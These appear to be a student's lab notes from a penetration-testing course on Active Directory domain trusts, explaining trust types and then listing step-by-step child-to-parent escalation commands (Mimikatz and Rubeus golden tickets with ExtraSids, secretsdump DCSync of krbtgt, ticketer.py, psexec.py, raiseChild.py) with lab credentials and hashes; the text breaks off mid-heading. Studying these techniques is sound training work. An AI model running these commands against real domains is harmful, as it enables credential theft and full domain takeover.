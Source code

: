 
- When a company acquires another, they inherit their security posture, good or bad.

> A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication. An organization can create various types of trusts:

## Different types of trusts:
1. **Parent-child**: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain `corp.inlanefreight.local` could authenticate into the parent domain `inlanefreight.local`, and vice-versa.
2. **Cross-link**: A trust between child domains to speed up authentication 
![[Pasted image 20250630224647.png]]
3. **Tree-root**: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.

#### Transitive Trusts:
Trust is extended to objects that the child domain trusts.
```
if `Domain A` has a trust with `Domain B`, and `Domain B` has a `transitive` trust with `Domain C`, then `Domain A` will automatically trust `Domain C`.
```

#### Non-Transitive Trusts:
```
The child domain itself is the only one that is trusted. Nothing the child domain trusts additionally is trusted.
```

#### One-Way Trusts:
```
Users in a `trusted` domain can access resources in a trusting domain, not vice-versa.
```

#### Bidirectional Trust:
```
A <-> B
```


> ==If someone wanted to target your organization, they could also look at the other company you acquired for a potentially softer target to attack, allowing them to get into your organization indirectly.==

"I have performed many penetration tests where this was the case: I was unable to find a foothold in the principal domain, but was able to find a flaw in a trusted domain which, in turn, gave me a foothold, or even full admin rights in the principal domain."

# Attacking Domain Trusts Child -> Parent - From Windows:
|Term|Summary|
|---|---|
|**SID History**|Attribute storing old SIDs to maintain access across migrations|
|**SID Injection**|Attacker adds privileged SID to a user’s SID history to escalate|
|**Golden Ticket**|Forged Kerberos TGT using KRBTGT hash — grants long-term domain access|
|**ExtraSIDs Attack**|Used to escalate from a child to parent domain in the same forest|
|**KRBTGT Hash**|Key to creating valid Golden Tickets; should be rotated after compromise|
|**DCSync Attack**|Lets attacker pull password hashes (including KRBTGT) from a Domain Controller|
## ExtraSids Attack - Mimikatz

```Powershell
# How the ExtraSid attack plays out

# 1. On the domain that you control, get the KRBTGT hash with Mimikatz

mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

# Get the Child SID:
Get-DomainSID

# Get the SID from the parent domain:
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Now you have what you need:
1. KRBTGT hash for the child domain
2. SID of the Child domain
3. SID of the Admin group you want to take advantage of in the parent domain
4. The name of the target user in the child domain (does not need to be a real user!)
5. The FQDN of the child domain


# Now we can run the command to get access to the DC on the parent domain:

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

```

## ExtraSids Attack - Rubeus

```PowerShell
# Using the above information

.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

```


# Attacking Domain Trusts Child -> Parent - From Linux:
- We still need the same information as Windows, we just need to get it in another way.

They are:
1. The KRBTGT hash for the child domain
2. The SID for the child domain
3. The name of a target user in the child domain (does not need to exist!)
4. The FQDN of the child domain
5. The SID of the Enterprise Admins group of the root domain

```shell
# Once you have full control of the child domain (In this case access to the htb-student_adm account, you can conduct a DCSync attack, requesting the krbtgt accounts hash)

# password is HTB_@cademy_stdnt_admin!

secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

# Now we need to get the SID of the child domain with lookupsid.py

lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240

# Now get the SID of the parent domain and the group we want our malicious account to be added to:

lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"


```
#### Now we have what we need:
- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

### Now construct a golden ticket using ticketer.py
```shell

ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# Now set KRB5CCNAME environment variable:

export KRB5CCNAME=hacker.ccache 

```

#### Now we can check if we can authenticate to the PARENT domain's DC using impacket's version of PSexec:
```shell

psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

```

#### raiseChild.py will automate this process!
***raiseChild.py:***
- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

```shell
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```


# Cross-Forest Trust Abuse - Windows
- You a